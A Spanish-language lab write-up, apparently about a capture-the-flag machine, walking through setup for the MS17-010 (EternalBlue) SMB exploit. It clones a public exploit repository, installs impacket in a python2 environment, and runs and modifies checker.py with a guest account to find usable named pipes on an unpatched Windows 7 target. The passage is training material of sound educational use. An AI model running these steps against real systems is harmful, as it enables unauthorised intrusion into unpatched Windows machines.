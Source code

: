 ```bash
  git clone https://github.com/helviojunior/MS17-010
  cd MS17-010/
```

Creamos un ambiente virtual de python2 para poder ejecutar el script sin presentar errores por librerías sin soporte.

```bash
  virtualenv -p python2 ms17-010
  source ms17-010/bin/activate
```

Ahora que nos encontramos en el ambiente virtual, procedemos a descargar la librería impacket requerida para ejecutar el exploit.

```bash
  pip install impacket
```

Como primer paso, vamos a ejecutar el `checker.py` que nos ayuda a identificar el nombre del pipe que vamos a utilizar en el script de explotación.

```bash
python checker.py 10.10.10.40
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

En esta oportunidad no hemos tenido éxito encontrando un nombre de pipe que podamos utilizar para nuestra explotación, por lo que procedemos a modificar el script `checker.py`, agregando el usuario "guest" en el campo de usuario.

```bash
vim checker.py
**AGREGAR guest EN LA LINEA 14
  USERNAME = 'guest'
```

Intentamos nuevamente realizar la ejecución del script `checker.py`

```bash
python checker.py 10.10.10.40
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: Ok (64 bit)
```
Tal como podemos ver, los nombres de pipe que podemos utilizar son los de status **OK**, en este caso `samr`, `netlogon`, `lsarpc` y `browser`.
